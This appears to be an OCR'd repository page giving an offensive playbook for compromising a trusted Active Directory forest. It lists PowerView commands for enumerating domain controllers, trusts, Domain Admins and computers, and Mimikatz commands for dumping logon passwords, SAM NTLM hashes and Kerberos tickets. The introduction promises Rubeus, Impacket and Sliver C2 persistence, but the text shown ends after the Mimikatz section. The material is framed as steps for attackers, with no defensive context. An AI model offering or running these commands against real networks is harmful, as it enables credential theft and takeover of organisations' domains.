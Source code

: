 
To compromise a trusted forest under non-default but common conditions, attackers often leverage credential harvesting, privilege escalation, and lateral movement techniques. Below is an outline of key tools, techniques, and commands for attacks that can be executed with Mimikatz, Rubeus, PowerView, Impacket, and other tools. I'll also include how to integrate Sliver C2 for maintaining persistence and executing commands.

### 1. **Initial Enumeration and Discovery**

The first step is to gather information about the environment. This includes finding high-value targets such as Domain Controllers, Kerberos Ticket Granting Ticket (TGT) users, and trust relationships between domains and forests.

#### PowerView Enumeration (Active Directory Reconnaissance)
- **Find Domain Controllers:**
  ```powershell
  Get-NetDomainController
  ```
- **Find Trust Relationships:**
  ```powershell
  Get-NetDomainTrust
  ```
- **Get a list of all domains in the forest:**
  ```powershell
  Get-NetForestDomain
  ```
- **Find high-privilege accounts:**
  ```powershell
  Get-NetGroup -GroupName "Domain Admins" -Domain
  ```
- **Find all computers in a domain:**
  ```powershell
  Get-NetComputer -FullData
  ```

### 2. **Credential Harvesting and Kerberos Attacks**

Once initial recon is done, the goal is to obtain credentials. Mimikatz and Rubeus are commonly used tools for harvesting credentials and performing Kerberos ticket-related attacks.

#### Mimikatz (Dumping Credentials and Tickets)
- **Dump Local Credentials:**
  ```powershell
  mimikatz.exe
  privilege::debug
  sekurlsa::logonpasswords
  ```
- **Extract NTLM Hashes:**
  ```powershell
  mimikatz.exe
  lsadump::sam
  ```
- **Dump Kerberos Tickets:**
  ```powershell
  mimikatz.exe
  sekurlsa::tickets
  ```
